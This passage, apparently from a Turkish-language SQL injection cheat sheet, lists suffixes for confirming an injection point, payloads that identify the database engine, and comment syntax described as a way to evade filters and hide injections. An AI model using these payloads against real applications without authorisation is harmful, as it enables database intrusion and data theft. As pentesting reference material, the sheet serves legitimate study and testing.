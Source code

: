 Eğer hiçbir onarım işe yaramazsa ve sayısal bir değere enjeksiyon yapıyorsanız şu yöntemleri deneyin:

| **Onarım**        |
|--------------------|
| ` -- -`           |
| ` AND 1=1`        |
| ` AND 1=1 -- -`   |

Örneğin, bir arama işlevinin `shirt` terimiyle 23 sonuç döndürdüğünü varsayalım. `shirt'` ile sorguyu bozun, ardından `shirt' '` gibi bir onarım ekleyin. Bu, enjeksiyon için bir açıklık olduğunu gösterebilir.

---

## Veritabanı Türlerini Belirleme

Potansiyel bir enjeksiyon bulunduğunda, aşağıdaki payload'ları sırasıyla enjekte ederek pozitif sonuç dönen veritabanı türünü belirleyebilirsiniz:

| **Sıra** | **Payload**                     | **Geçerliyse** |
|----------|---------------------------------|----------------|
| 1        | `AND 'foo' 'bar' = 'foobar'`   | MySQL          |
| 2        | `AND DATALENGTH('foo') = 3`    | MSSQL          |
| 3        | `AND TO_HEX(1) = '1'`          | PostgreSQL     |
| 4        | `AND LENGTHB('foo') = '3'`     | Oracle         |
| 5        | `AND GLOB('foo*', 'foobar') = 1`| SQLite        |

---

## Yorum Eklemeleri

SQL ifadelerine yorum eklemek için kullanılabilecek sözdizimi. Filtreleri atlatmak ve enjeksiyonları gizlemek için faydalıdır.

| **Variant** | **Sözdizimi** |
|-------------|---------------|
| MySQL       | `# yorum`<br>`-- yorum`<br>`/*yorum*/` |
| PostgreSQL  | `-- yorum`<br>`/*yorum*/` |
| MSSQL       | `-- yorum`<br>`/*yorum*/` |
| Oracle      | `-- yorum`<br>`/*yorum*/` |
| SQLite      | `-- yorum`<br>`/*yorum*/` |

---
